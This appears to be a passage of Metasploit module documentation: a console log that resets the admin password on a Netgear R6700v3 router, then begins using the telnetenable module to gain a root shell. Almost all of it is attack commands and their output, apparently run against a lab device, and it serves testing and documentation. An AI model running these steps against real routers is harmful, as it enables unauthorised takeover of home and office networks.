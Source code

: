 ```
    
    msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > set RHOSTS 192.168.1.1
    RHOSTS => 192.168.1.1
    msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > check
    
    [*] Target is running firmware version 1.0.4.82
    [*] 192.168.1.1:5000 - The target appears to be vulnerable.
    msf5 auxiliary(admin/http/netgear_r6700_pass_reset) > exploit
    [*] Running module against 192.168.1.1
    
    [*] 192.168.1.1:5000 - Identified Netgear R6700v3 (firmware V1.0.0.4.82_10.0.57) as the target.
    [+] 192.168.1.1:5000 - HTTP payload sent! 'admin' password has been reset to 'password'
    [*] To achieve code execution, do the following steps manually:
    [*] 1- Login to 192.168.1.1 with creds 'admin:password', then:
    [*]     1.1- go to Advanced -> Administration -> Set Password
    [*]     1.2- Change the password from 'password' to <WHATEVER>
    [*] 2- Run metasploit as root, then:
    [*]     2.1- use exploit/linux/telnet/netgear_telnetenable
    [*]     2.2- set interface <INTERFACE_CONNECTED_TO_ROUTER>
    [*]     2.3- set rhost 192.168.1.1
    [*]     2.3- set username admin
    [*]     2.4- set password <WHATEVER>
    [*]     2.5- OPTIONAL: set timeout 1500
    [*]     2.6- OPTIONAL: set MAC <ROUTERS_MAC>
    [*]     2.7- run it and login with 'admin:<WHATEVER>'
    [*] 3- Enjoy your root shell!
    [*] Auxiliary module execution completed
    msf5 auxiliary(admin/http/netgear_r6700_pass_reset) >
```

Browsed to admin page and changed password to `testing123`, then in a new `msfconsole`
session running as `root`, entered the following commands:

```
    msf5 > use exploit/linux/telnet/netgear_telnetenable
    [*] No payload configured, defaulting to cmd/unix/interact
    msf5 exploit(linux/telnet/netgear_telnetenable) > show options
    
    Module options (exploit/linux/telnet/netgear_telnetenable):
    
       Name       Current Setting  Required  Description
       ----       ---------------  --------  -----------
       FILTER                      no        The filter string for capturing traffic
       INTERFACE                   no        The name of the interface
       MAC                         no        MAC address of device
       PASSWORD                    no        Password on device
       PCAPFILE                    no        The name of the PCAP capture file to process
       RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
       RPORT      23               yes       The target port (TCP)
       SNAPLEN    65535            yes       The number of bytes to capture
       TIMEOUT    500              yes       The number of seconds to wait for new data
       USERNAME                    no        Username on device
    
    
    Payload options (cmd/unix/interact):
    
       Name  Current Setting  Required  Description
       ----  ---------------  --------  -----------
    
    
    Exploit target:
    
       Id  Name
```